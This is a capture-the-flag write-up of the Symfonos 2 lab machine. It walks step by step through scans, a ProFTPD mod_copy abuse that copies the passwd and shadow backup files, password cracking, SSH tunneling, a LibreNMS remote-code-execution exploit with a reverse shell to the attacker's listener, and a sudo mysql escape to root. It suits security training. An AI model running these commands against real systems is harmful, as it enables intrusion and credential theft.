










Symfonos: 2
This box is an OSCP-style grind. Anonymous SMB share, ProFTPD mod_copy vulnerability, credential reuse, SSH tunneling, LibreNMS authenticated RCE, and a stupid-simple MySQL escape to root. Let's break it down.
🎯 The Short Version (For Busy People)
What happened: Anonymous SMB share leaked info about FTP backups. ProFTPD 1.3.5 had the mod_copy vuln, letting me copy /etc/passwd and /var/backups/shadow.bak into the SMB share. Grabbed those, cracked aeolus:sergioteamo, SSH'd in. Found LibreNMS on localhost:8080, tunneled to it, reused creds. Exploited CVE-2018-20434 for RCE, got shell as cronus. Then sudo mysql + \! /bin/bash = root. Done.
Time to root: ~75 minutes. Biggest lesson: Never assume localhost services are safe. SSH tunneling exposes everything.
🔍 Phase 1: Reconnaissance
Started with a fast port scan to see what's open:
sudo nmap -p- --min-rate 1000 -T4 -oA ~/Documents/Coding/Symf2/nmap/allports 192.168.56.109Then a full service scan on discovered ports:
sudo nmap -sC -sV -p- -oN ~/Documents/Coding/Symf2/nmap/fullscan.nmap 192.168.56.109Results showed ports 21 (FTP - ProFTPD 1.3.5), 22 (SSH), 80 (HTTP), 139/445 (SMB). Nothing crazy yet.

Figure 1: Nmap showing open ports.
📁 Phase 2: SMB & FTP Enumeration
SMB - The First Break
Checked SMB shares anonymously:
smbclient -L //192.168.56.109 -NFound an anonymous share with READ/WRITE access. Mapped to /home/aeolus/share. That's interesting - a user's home directory exposed.

Figure 2: Anonymous SMB share discovered.
Connected and found a backups/ folder with log.txt. Downloaded it. The log referenced /var/backups/shadow.bak and ProFTPD configs. Not credentials yet, but breadcrumbs.
FTP - ProFTPD 1.3.5
Checked FTP:
ftp 192.168.56.109
220 ProFTPD 1.3.5 ServerAnonymous login? Nope. 530 Login incorrect. But that version... quick research: ProFTPD 1.3.5 has the mod_copy vulnerability. Lets you copy files on the server without auth using SITE CPFR and SITE CPTO.

Figure 3: ProFTPD 1.3.5 - vulnerable to mod_copy.
Abusing mod_copy
Connected via raw FTP and copied sensitive files into the SMB-accessible share:
SITE CPFR /etc/passwd
SITE CPTO /home/aeolus/share/passwd
SITE CPFR /var/backups/shadow.bak
SITE CPTO /home/aeolus/share/shadow.bakThen grabbed them via SMB:
smbclient //192.168.56.109/anonymous -N
get passwd
get shadow.bak
Figure 4: Using SITE CPFR/CPTO to copy shadow.bak.
Cracking Hashes
Merged passwd and shadow.bak:
unshadow passwd shadow.bak > hashes.txtThen John with rockyou:
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txtGot a hit:
sergioteamo (aeolus)Now we have SSH creds: aeolus:sergioteamo.

Figure 5: Successfully cracked aeolus password.
🔐 Phase 3: SSH Access & Port Forwarding
SSH in as aeolus:
ssh aeolus@192.168.56.109Now inside. Time to enumerate internally. Used ss -tulpn to find services bound to localhost:
ss -tulpnFound something on 127.0.0.1:8080. That's an internal web app we can't reach from outside. Time to tunnel.

Figure 6: Internal service discovered on localhost:8080.
SSH Local Port Forwarding
From attacker machine:
ssh -L 8080:127.0.0.1:8080 aeolus@192.168.56.109Now http://127.0.0.1:8080 on MY machine points to THEIR internal service. Browsed to it...

Figure 7: Creating SSH tunnel to internal service.
LibreNMS Discovered
It's a LibreNMS login page. Tried the cracked credentials: aeolus:sergioteamo. Logged right in. Credential reuse for the win.

Figure 8: LibreNMS dashboard - authenticated.
💥 Phase 4: LibreNMS Authenticated RCE
Searched for exploits:
searchsploit librenmsFound: LibreNMS 1.46 - 'addhost' Remote Code Execution (CVE-2018-20434). Perfect.
The exploit requires valid session cookies. Used Burp Suite to intercept a login request and grabbed:
PHPSESSID=1ncdrdf21itrctcphrgo7eb0a1
librenms_session=eyJpdiI6IlhPSEs0MlFhSkRuaTlrWWNBekdnZ0E9PSIsInZhbHVlIjoidVBTZWlzSlJPZXVzN1J4WWVsQjRpXC9yUFlwNWtFUmRiN1RaQXM2a2JBMXFnTE5NMGRDMHQ3ZGJxXC9zdUtwY3N1T0g4VXJqb0VZZ241XC9sdWQ3RHkrZGc9PSIsIm1hYyI6Ijg3NjFkNWM3YjQ3OGIyNjFmNmIyNDQ2NTA3NjBjNzYwYTBjY2YwM2JkMDhhY2NjZDJjMTQ2MTk3NjI2MDczMTEifQ
Figure 9: Extracting session cookies with Burp.
Reverse Shell
Set up listener:
nc -lvnp 4444Ran the exploit. Important note: the callback IP must be reachable by the victim. Checked ip a - my VirtualBox host-only adapter was 192.168.56.1. That's the one.
python3 47044.py http://127.0.0.1:8080 "PHPSESSID=...; librenms_session=..." 192.168.56.1 4444Caught the shell:
Connection received on 192.168.56.109
whoami
cronus
Figure 10: Reverse shell obtained as cronus.
👑 Phase 5: Privilege Escalation to Root
Checked sudo permissions:
sudo -lOutput:
(root) NOPASSWD: /usr/bin/mysqlWait... cronus can run MySQL as root? Without a password? That's the ticket.

Figure 11: cronus can run mysql as root.
MySQL Shell Escape
Launched MySQL as root:
sudo mysqlInside MySQL, escaped to a shell:
\! /bin/bashChecked who I am:
whoami
rootThat's it. Game over.

Figure 12: \! /bin/bash inside mysql = root shell.
🏁 The Takeaway
- Anonymous SMB shares are goldmines. Even without direct creds, they leak paths and usernames.
- ProFTPD mod_copy is stupidly easy to abuse. If you see 1.3.5, try SITE CPFR/CPTO immediately.
- SSH tunneling changes everything. Localhost services are NEVER safe if you have any foothold.
- Credential reuse is real. aeolus:sergioteamo worked everywhere.
- Always check sudo -l.
sudo mysql+\! /bin/bashis a classic for a reason.

Figure 13: Root access confirmed. Box done.